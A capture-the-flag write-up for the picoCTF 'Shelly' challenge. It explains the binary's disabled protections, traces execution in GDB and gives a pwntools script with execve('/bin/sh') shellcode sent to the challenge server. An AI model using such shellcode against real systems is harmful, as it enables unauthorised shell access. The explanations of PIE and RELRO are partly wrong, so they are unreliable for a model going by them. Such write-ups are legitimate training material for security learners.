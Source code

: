 ## Preliminary Analysis on the provided 'Shelly' binary

#### Running Checksec and File on the given binary

![1709890282094](image/ShellyWriteup/1709890282094.png)

- The binary has all protections disabled
  - **NX Disabled**
    - Stands for No-Execute i.e. the data section of the binary is marked as non-executeable when this bit is on but when off we can send shellcode to be stored and executed from variables that are populated via stdin functions
  - **Partial RELRO aka Relocation ReadOnly**
    - Understanding RELRO is a little confusing as it deals with 2 main concepts
      - Global Offset Table
        - This is used to dynamically resolve the functions located in shared libs
      - Procedure Linkage Table
        - Contains the x86 instructions that point directly to the GOT
      - When partial, the GOT is read-only but the PLT can be modified which is the case in the provided binary
  - **No PIE (Position-Independent Code)**
    - This means that the locations where the binary and its dependencies are loaded into memory are always randomized. When disabled and used along with a kernel that has no ASLR (Address Space Layout Randomization). We can safely use the stack and memory function offsets we calculate during dynamic analysis
  - **No stack canaries**
    - Canaries are used to monitor the stack for buffer overflows

## Observing the main function

- Performing static analysis via your reverser of choice i.e ghidra/IDA/GDB we can obeserve the main func and analyze what it is doing
  - ![1709890604054](image/ShellyWriteup/1709890604054.png)
- The main func takes in the code string to execute and reads it charecter by charecter starting from line 21 to execute later on in line 30

## Using GDB and GEF

- Data fed into stdin was "AAAAAAAAAAAAAAAA"
- Disassembly of main shows the execute function which is where we need to stop via a breakpoint

  - ![1709892011792](image/ShellyWriteup/1709892011792.png)
- Another interesting breakpoint was found and set in the execute function where it calls eax

  - ![1709892059042](image/ShellyWriteup/1709892059042.png)
- After running the program and stopping at our first breakpoint. Lets observe eax

  - ![1709892163422](image/ShellyWriteup/1709892163422.png)
- Looking at the stack we can observe that our input is being stored in 0xffffcbe3 and so we can check that specifc memory address to verify

  - ![1709892251989](image/ShellyWriteup/1709892251989.png)
- Moving on to the next breakpoint we can observe that eax has been changed

  - ![1709892315263](image/ShellyWriteup/1709892315263.png)
- Lets check the entire eax register

  - ![1709892543744](image/ShellyWriteup/1709892543744.png)
- Note that 0x90 corresponds to a NO-OP instruction in our case

  - ![1709892472477](image/ShellyWriteup/1709892472477.png)
- Now we know to ensure our ''code'' has to be 2 bytes wide at max to execute and as such we can craft and send a payload to spawn a new shell for us 

## Crafting a pwntools script with payload

- To spawn a shell we need to send execve("/bin/sh", NULL, NULL), doing this in shellcode requires that we prepare some shellcode with the given restriction of 2 bytes of code for every 2 NO-OP instructions

  - Put the command string onto the stack and point esp to it
  - EBX should point to the command string as well, Set ECX & EDX to 0
  - To set registers to 0 we can XOR them with each other, this avoids creating more null bytes in our shellcode
- Exploit shellcode

  - ; Push //bin/sh on stack (one more slash to avoid null byte)
    - xor eax, eax
    - push eax
    - push `n/sh`
    - push `//bi`
  - ; Set parameters
    - mov ebx, esp
    - xor ecx, ecx
    - xor edx, edx
  - ; call execve
    - mov al, 11
    - int 0x80
  - ; exit
    - mov al, 1
    - xor ebx, ebx
    - int 0x80
- Now to push our command string into the stack we can bulid the string in register and push it onto the stack

Final pwncode



from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()




# Final Result

![1709894347983](image/ShellyWriteup/1709894347983.png)
